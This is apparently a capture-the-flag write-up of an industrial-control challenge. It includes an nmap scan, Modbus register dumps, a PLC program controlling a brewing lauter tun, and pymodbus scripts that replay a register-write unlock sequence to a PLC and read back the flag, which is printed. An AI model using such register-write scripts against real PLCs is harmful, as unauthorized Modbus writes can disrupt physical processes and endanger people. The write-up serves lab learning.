





Same as usual I will perform a full scan of all the TCP ports open on the machine.

```bash
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Werkzeug httpd 3.0.1 (Python 3.9.18)
| http-title: OmniPLC v2.0 - Log-in
|_Requested resource was /panel/login
|_http-favicon: Unknown favicon MD5: F50F5CED9F5595CD8474030308510D7B
|_http-server-header: Werkzeug/3.0.1 Python/3.9.18
| http-methods: 
|_  Supported Methods: HEAD GET OPTIONS
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
TCP/IP fingerprint:
OS:SCAN(V=7.99%E=4%D=4/21%OT=80%CT=%CU=35700%PV=Y%DS=2%DC=T%G=N%TM=69E7D131
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=B)SEQ(
OS:SP=108%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M54EST11NW7%O2=M54EST11N
OS:W7%O3=M54ENNT11NW7%O4=M54EST11NW7%O5=M54EST11NW7%O6=M54EST11)WIN(W1=FE88
OS:%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M54E
OS:NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R
OS:=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=
OS:AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)U1(R=Y%DF=N%T=
OS:40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S
OS:)

Uptime guess: 21.840 days (since Tue Mar 31 01:24:27 2026)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=264 (Good luck!)
IP ID Sequence Generation: All zeros


```

# HTTP

Now we can only assume that this HMI is tied to the PLC on the IP .13:

```bash
python3 auditor.py

AUDIT REPORT: 172.19.5.3
Address  | Holding (FC03)  | Input (FC04)   
---------------------------------------------
0        | 0               | 1              
1        | 0               | 60             
2        | 0               | 90             
3        | 4800            | 0               <--- AGITATOR
8        | 2898            | 0              

AUDIT REPORT: 172.19.5.7
Address  | Holding (FC03)  | Input (FC04)   
---------------------------------------------
0        | 0               | 1              
1        | 0               | 12             
2        | 0               | 95             
3        | 65533           | 0              
4        | 95              | 0              
5        | 65533           | 0              
6        | 1949            | 0              

AUDIT REPORT: 172.19.5.9
Address  | Holding (FC03)  | Input (FC04)   
---------------------------------------------
0        | 0               | 1440           
1        | 0               | 4              
2        | 0               | 50             

AUDIT REPORT: 172.19.5.11
Address  | Holding (FC03)  | Input (FC04)   
---------------------------------------------
0        | 0               | 12             
1        | 92              | 92             
2        | 0               | 120            
3        | 0               | 10             
4        | 0               | 75             

AUDIT REPORT: 172.19.5.13
Address  | Holding (FC03)  | Input (FC04)   
---------------------------------------------
                                              [!] DEVICE BUSY / OFFLINE
                                                                                 
```

This because the PLC is actually offline and I as guest user cannot footprint it!



# The second day

Now I think the passwor I obtained via that lauthering pcap must be used here but here I was lost and apparently this bullshit actually the password neded to be from the pcap in the same addresses, because the datasheet clearly says:  


But those addresses are not writable att all. Where in the pcap I can see it is starting from the HR@1034.



So I asked AI to graft a python script that simulates all the write here:

```python
from pymodbus.client import ModbusTcpClient

# Target device settings
client = ModbusTcpClient('172.19.5.13')

# Define the sequence: (Register, Value)
registers_to_write = [
    # Initial block
    *[(r, 12) for r in range(1034, 1042)],
    # Config registers
    (3964, 56), (3919, 90), (3916, 65), (3893, 110), (4090, 51),
    (3927, 84), (3993, 77), (4082, 122), (4019, 67), (3982, 49),
    (4088, 64), (3932, 106), (3951, 42), (4094, 75), (3936, 85), (4057, 33),
    # Second pass
    *[(r, 12) for r in range(1034, 1042)]
]

if client.connect():
    for address, value in registers_to_write:
        client.write_register(address, value, slave=1)
    client.close()
    print("Done.")
else:
    print("Connection failed.")
```

And this unlocks the modbus flags and so on:



So now apparently the AI suggested this, to map the values and form the flag:



This can be all obtained by the PLC code:

```st
PROGRAM lauter_tun
  VAR_INPUT
    start : BOOL;
    stop : BOOL;
    turbidity_sensor : INT;
    ultra_level_sensor : INT;
  END_VAR
  VAR_OUTPUT
    process_start : BOOL;
    output_valve : BOOL;
    intake_a : BOOL;
    sparge_water_valve : BOOL;
    stop_intake_a : BOOL;
    stop_sparge_water : BOOL;
    rake : BOOL;
    recirculation_pump : BOOL;
    rake_stop : BOOL;
    r_pump_stop : BOOL;
    settling_completed : BOOL;
    grain_removal : BOOL;
    stop_first_runoff : BOOL;
    stop_removal : BOOL;
    stop_final_runoff : BOOL;
    sp_mash_lvl AT %MW10 : INT;
    sp_sparge_water_temp AT %MW11 : INT;
    sp_settle_phase AT %MW51 : INT;
    sp_sparge_water_lvl AT %MW52 : INT;
    sp_first_runoff AT %MW44 : INT;
    sp_grain_bed_level AT %MW35 : INT;
    sp_turbidity_rake AT %MW23 : INT;
    sp_turbidity_vor AT %MW22 : INT;
  END_VAR
  VAR
    settle_phase_pt : TIME;
    settle_phase_et : TIME;
    sp_rake_timer : TIME;
    TON1 : TON;
    TON0 : TON;
    _TMP_GE28_OUT : BOOL;
    _TMP_INT_TO_TIME91_OUT : TIME;
    _TMP_LT62_OUT : BOOL;
    _TMP_LE89_OUT : BOOL;
    _TMP_LE102_OUT : BOOL;
    _TMP_GE107_OUT : BOOL;
    _TMP_LT123_OUT : BOOL;
    _TMP_LT114_OUT : BOOL;
  END_VAR

  process_start := NOT(stop) AND start;
  intake_a := NOT(stop_intake_a) AND process_start;
  _TMP_GE28_OUT := GE(ultra_level_sensor, sp_mash_lvl);
  stop_intake_a := process_start AND _TMP_GE28_OUT OR stop_intake_a AND process_start;
  _TMP_INT_TO_TIME91_OUT := INT_TO_TIME(sp_settle_phase);
  settle_phase_pt := _TMP_INT_TO_TIME91_OUT;
  TON0(IN := stop_intake_a AND process_start, PT := settle_phase_pt);
  settling_completed := TON0.Q;
  settle_phase_et := TON0.ET;
  rake := NOT(rake_stop) AND (rake OR settling_completed) AND process_start;
  _TMP_LT62_OUT := LT(turbidity_sensor, sp_turbidity_rake);
  TON1(IN := stop_intake_a AND process_start AND _TMP_LT62_OUT, PT := sp_rake_timer);
  rake_stop := TON1.Q;
  recirculation_pump := NOT(r_pump_stop) AND (recirculation_pump OR settling_completed) AND process_start;
  _TMP_LE89_OUT := LE(turbidity_sensor, sp_turbidity_vor);
  r_pump_stop := rake_stop AND process_start AND _TMP_LE89_OUT;
  output_valve := NOT(stop_first_runoff) AND (output_valve OR r_pump_stop) AND process_start;
  _TMP_LE102_OUT := LE(ultra_level_sensor, sp_first_runoff);
  stop_first_runoff := r_pump_stop AND process_start AND _TMP_LE102_OUT OR stop_first_runoff AND process_start;
  sparge_water_valve := NOT(stop_sparge_water) AND stop_first_runoff AND process_start;
  _TMP_GE107_OUT := GE(ultra_level_sensor, sp_sparge_water_lvl);
  stop_sparge_water := stop_first_runoff AND process_start AND _TMP_GE107_OUT OR stop_sparge_water;
  output_valve := NOT(stop_final_runoff) AND (output_valve OR stop_sparge_water) AND process_start;
  _TMP_LT123_OUT := LT(ultra_level_sensor, sp_grain_bed_level);
  stop_final_runoff := stop_sparge_water AND process_start AND _TMP_LT123_OUT;
  grain_removal := NOT(stop_removal) AND (grain_removal OR stop_final_runoff) AND process_start;
  _TMP_LT114_OUT := LT(ultra_level_sensor, 5);
  stop_removal := stop_final_runoff AND process_start AND _TMP_LT114_OUT;
END_PROGRAM


CONFIGURATION Config0

  RESOURCE Res0 ON PLC
    TASK task0(INTERVAL := T#1s0ms,PRIORITY := 0);
    PROGRAM instance0 WITH task0 : lauter_tun;
  END_RESOURCE
END_CONFIGURATION
```

And replacing the values it becomes this one:

```bash
ALCHEMY{m0d8u5_724ff1c_unc0v325_53c2375_200_75_900_30_20_16_244_6}
```

This could be automated with this python script:

```bash
from pymodbus.client import ModbusTcpClient

# Target device settings
PLC_IP = '172.19.5.13'
client = ModbusTcpClient(PLC_IP)

# Authentication sequence
registers_to_write = [
    *[(r, 12) for r in range(1034, 1042)],
    (3964, 56), (3919, 90), (3916, 65), (3893, 110), (4090, 51),
    (3927, 84), (3993, 77), (4082, 122), (4019, 67), (3982, 49),
    (4088, 64), (3932, 106), (3951, 42), (4094, 75), (3936, 85), (4057, 33),
    *[(r, 12) for r in range(1034, 1042)]
]

if client.connect():
    # Perform authentication writes
    for address, value in registers_to_write:
        client.write_register(address, value, slave=1)
    
    # Read block for flag (Starts at 1034, length 43 covers up to 1076)
    res = client.read_holding_registers(1034, 43, slave=1)
    
    if not res.isError():
        d = res.registers
        # Mapping based on PLC Address + 1024
        # order: mash_lvl, settle, sparge_temp, sparge_lvl, runoff, grain, rake, vor
        f = [d[0], d[41], d[1], d[42], d[34], d[25], d[13], d[12]]
        
        print(f"ALCHEMY{{m0d8u5_724ff1c_unc0v325_53c2375_{'_'.join(map(str, f))}}}")
    
    client.close()
else:
    print("Connection failed.")

```

&nbsp;

&nbsp;